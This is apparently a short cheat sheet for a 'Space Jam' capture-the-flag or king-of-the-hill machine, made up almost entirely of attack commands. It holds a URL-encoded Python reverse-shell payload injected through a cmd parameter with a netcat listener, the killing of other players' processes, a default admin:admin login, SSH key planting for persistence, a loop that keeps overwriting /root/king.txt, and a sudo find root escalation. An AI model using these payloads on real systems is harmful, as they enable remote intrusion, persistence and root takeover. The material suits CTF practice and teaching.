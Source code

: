 Space Jam

## Instant root
`"<REMOTE_IP>:3000/?cmd=python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22<REMOTE IP>%22%2C5566%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D%29%3B%27"` and `nc -nlvp 5566`

- `ps aux | grep python` then `kill PYTHON3 easythingy`

- Go to `http://IP/local/fantasticblog/blogadmin/admin/pageSettings.php`, login `admin:admin`, change password

- You are alone now!

# Alternatives:

- `nc IP 61432`

- `echo "SSHKEY" > .ssh/authorized_keys`

- on your machine: `ssh jordan@IP`

- `ps aux` + `kill PID` for that process

- `while true; do echo "$USERNAME" | cp /dev/stdin /root/king.txt; sleep 0.1; done &`

- `sudo find . -exec /bin/sh \; -quit`